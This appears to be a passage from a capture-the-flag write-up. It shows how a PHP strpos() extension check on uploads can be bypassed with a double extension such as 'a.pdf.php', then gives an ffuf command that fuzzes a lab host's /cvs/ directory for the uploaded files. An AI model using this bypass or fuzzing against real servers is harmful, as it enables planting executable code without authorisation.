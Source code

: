 Let do as it was intended as user need to upload PDF file and file name maybe be a.pdf and we can see below that it is give us one value as it is true
```
└─$ php -a          
Interactive shell

php > $a = "a.pdf";
php > echo strpos($a, ".pdf");
1

```

let try with "a.php" and it doesn't print anything so meaning that it is false
```
php > $a = "a.php";
php > echo strpos($a, ".pdf");
php > 
php > 

```

from definition,it say that it find the position of the first occurrence so if we give double extension like "a.pdf.php",we might bypass it

```
php > $a = "a.pdf.php";
php > echo strpos($a, ".pdf");
1
php > 
php > 

```
and need it gives us true as 1,it meaning that it was uploaded successful

But earlier, in description, it say that they try to prevent an attacker and fails meaning that they may disable upload functionality

# USER ENUMERATION

let try to brute force files with double extension in directory CVS as in code,it was mention that files to be saved there.

```
ffuf -u http://10.10.2.238/cvs/FUZZ.pdf.php -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -fc 403
```
Output
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.2.238/cvs/FUZZ.pdf.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
```